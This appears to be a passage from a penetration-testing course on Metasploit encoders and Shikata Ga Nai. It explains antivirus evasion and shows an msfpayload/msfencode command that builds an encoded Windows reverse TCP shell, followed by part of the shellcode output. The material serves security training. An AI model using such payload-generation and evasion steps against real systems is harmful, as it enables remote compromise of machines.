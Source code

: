 # Encoders

Over the 15 years of existence of the Metasploit Framework, `Encoders` have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include:

| `x64` | `x86` | `sparc` | `ppc` | `mips` |
| --- | --- | --- | --- | --- |

They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. Far from it. The name (`仕方がない`) means `It cannot be helped` or `Nothing can be done about it`, and rightfully so if we were reading this a few years ago. However, there are other methodologies we will explore to evade protection systems. [This article from FireEye](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) details the why and the how of Shikata Ga Nai's previous rule over the other encoders.

## Selecting an Encoder

Before 2015, the Metasploit Framework had different submodules that took care of payloads and encoders. They were packed separately from the msfconsole script and were called `msfpayload` and `msfencode`. These two tools are located in `/usr/share/framework2/`.

If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward. A pipe would take the output from one command and feed it into the next, which would generate an encoded payload, ready to be sent and run on the target machine.

```
frank-106@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .

<SNIP>
```
